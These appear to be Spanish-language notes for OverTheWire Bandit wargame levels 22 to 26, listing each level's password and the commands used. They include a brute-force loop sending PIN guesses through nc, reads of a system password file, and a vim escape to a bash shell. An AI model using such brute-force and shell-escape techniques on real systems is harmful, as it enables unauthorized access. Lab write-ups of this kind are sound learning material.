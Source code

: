 ### **pass22**
- **Contraseña**: `tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q`
- **Comandos**:
  - `ls -l /etc/cron.d`
  - `cat /etc/cron.d/cronjob_bandit22`
  - `cat /usr/bin/cronjob_bandit22.sh`
  - `cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv`

### **pass23**
- **Contraseña**: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`
- **Comandos**:
  - `ls -l /etc/cron.d`
  - `cat /etc/cron.d/cronjob_bandit23`
  - `cat /usr/bin/cronjob_bandit23.sh`
  - `echo I am user bandit23 | md5sum | cut -d ' ' -f 1`
  - Hacer un `cat` al hash de la salida del comando anterior.

### **pass24**
- **Contraseña**: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`
- **Comandos**:
  - `mktemp -d`
  - `cd /tmp/tmp.ljEyl6kv1M`
  - Crear un script `script.sh

### **pass25**
- **Contraseña**: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
- **Comandos**:
  - `mktemp -d`
  - `cd /tmp/tmp.ljEyl6kv1M`
  - Crear un script `script.sh` con:
    ```bash
    #! /bin/bash
    for i in {0000..9999}; do
      echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i
    done
    ```
  - Cambiar permisos:
    ```bash
    chmod +x script.sh
    ```
  - Ejecutar el script:
    ```bash
    ./script.sh > password.txt
    ```
  - Ver el contenido de `password.txt` y pasarlo por `nc`:
    ```bash
    cat password.txt | nc localhost 30002 | grep -v -E "Wrong|Please"
    ```

### **pass26**
- **Contraseña**: `s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ`
- **Comandos**:
  - `cat /etc/passwd | grep bandit26`
  - `cat /usr/bin/showtext`
  - Para acceder a una bash, intentar con `vim`:
    ```bash
    v
    :e /etc/bandit_pass/bandit26
    :set shell=/bin/bash
    :shell
    ```
